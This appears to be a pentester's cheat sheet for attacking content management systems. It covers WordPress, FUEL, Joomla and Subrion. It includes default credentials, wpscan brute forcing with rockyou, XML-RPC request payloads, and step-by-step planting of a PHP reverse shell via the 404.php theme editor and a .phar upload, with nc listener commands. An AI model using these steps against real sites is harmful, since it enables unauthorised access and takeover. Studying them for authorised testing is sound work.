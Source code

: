 ```yaml
---
title: CMS Pentesting
desc: Pentesting for the CMS used in the Web Applications. WordPress.
tags: [CMS, Cmseek, FUEL, Subrion, Web, WordPress]
alts: []
render_with_liquid: false
---
```


## 1. CMS Detection

You need to detect which CMS is used in the web page.

1. **Using Detection Tools**

    - **[Cmseek](https://github.com/Tuhinshubhra/CMSeeK){:target="_blank"}**

        ```sh
        cmseek -u vulnerable.com
        ```

<br />

## 2. WordPress Pentesting

1. **Manual Pentesting**

    - **Find Common Directories**

        ```sh
        /author/admin/
        /index.php/author/admin/
        /license.txt
        /readme.html
        /wp-admin/
        /wp-admin/upload.php

        # Private/Draft Posts (WordPress <= 5.2.3) 
        /?static=1
        ```

    - **Try to Login with Default Credential**

        Access to **/wp-login.php** and use the default credential in the login form.

        ```
        admin:password
        ```

    - **PHP Reverse Shell Injection**

        It's required the **"admin" credentials.**

        ```
        1. Access to dashboard (/wp-admin/).
        2. Move to "Appearance" and select theme named "Twenty Seventeen".
        3. Click "Theme Editor" or "Editor" in the "Appearance" section.
        4. In the theme editor, click "404 Template (404.php)" on the right.
        5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
        6. Edit "IP" and "Port" in the code.
        7. In your terminal, run 'nc -lvnp <IP>'.
        8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
        ```

    - **XML-RPC (xmlrpc.php)**

        - **Get All Methods**

            ```xml
            POST /xmlrpc.php HTTP/1.1
            Host: vulnerable.com
            ...

            <?xml version="1.0" encoding="utf-8"?> 
            <methodCall> 
            <methodName>system.listMethods</methodName> 
            <params></params> 
            </methodCall>
            ```

        - **Ping Back**

            Use **[PostBin](https://www.toptal.com/developers/postbin/){:target="_blank"}** to confirm the results.

            ```xml
            POST /xmlrpc.php HTTP/1.1
            Host: vulnerable.com
            ...

            <?xml version="1.0" encoding="utf-8"?>
            <methodCall>
            <methodName>pingback.ping</methodName>
            <params>
            <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
            <param><value><string>http://vulnerable.com</string></value></param>
            </params>
            </methodCall>
            ```

2. **Use Automation Tools**

    - **[Wpscan](https://github.com/wpscanteam/wpscan){:target="_blank"}**

        WordPress security scanner.  
        It can brute force credentials.

        ```sh
        # --rua: random user agent
        # --http-auth username:password
        # -e: enumerate
        #  ap: All plugins
        #  at: All themes
        #  tt: Timthumbs
        #  cb: Config backups
        #  dbe: Db exports
        #  u: User IDs range
        #  m: Media IDs range
        wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

        # Specifify username (-U)
        wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
        ```

<br />

## 3. FUEL CMS Pentesting

1. **Login using Default Credential**

    ```
    admin:admin
    ```

<br />

## 4. Joomla Pentesting

1. **Default Credentials**

    The default username is **"admin"** and no password.

2. **Interesting Files**

    ```
    /administrator/manifests/files/joomla.xml
    /language/en-GB/en-GB.xml
    ```

<br />

## 5. Subrion CMS Pentesting

1. **File Upload to Reverse Shell**

    It is login required.

    1. **Download Reverse Shell Payload**

        Get the PHP payload from [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.  
        And change the file extension to **'.phar'**.  
        Then open listener.

        ```sh
        nc -lvnp 4444
        ```

    2. **Upload the Payload in Subrion Panel**

        1. **Login**

        2. **Move to Content -> Uploads in Panel**

        3. **Upload reverse-shell.phar**

        4. **Access to /subrion/upload/reverse-shell.phar**

        Now you get a shell.